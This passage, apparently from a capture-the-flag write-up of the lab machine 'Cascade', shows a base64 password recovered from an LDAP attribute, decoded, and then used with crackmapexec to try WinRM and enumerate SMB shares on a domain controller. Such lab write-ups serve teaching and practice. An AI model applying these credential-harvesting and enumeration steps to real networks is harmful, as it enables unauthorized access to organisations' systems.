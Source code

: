 ```
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

```

I can decode the value to `rY4n5eva`:

```

root@kali# echo clk0bjVldmE= | base64 -d
rY4n5eva

```

## Shell as s.smith

### Revisiting SMB

I tried connecting over WinRM, but didn’t succeed.

```

root@kali# crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\r.thompson:rY4n5eva "Failed to authenticate the user r.thompson with ntlm"

```

Back to SMB.

#### Validate Creds

With the password collected from LDAP, more shares are visible:

```

root@kali# crackmapexec smb -u r.thompson -p rY4n5eva --shares 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 

```
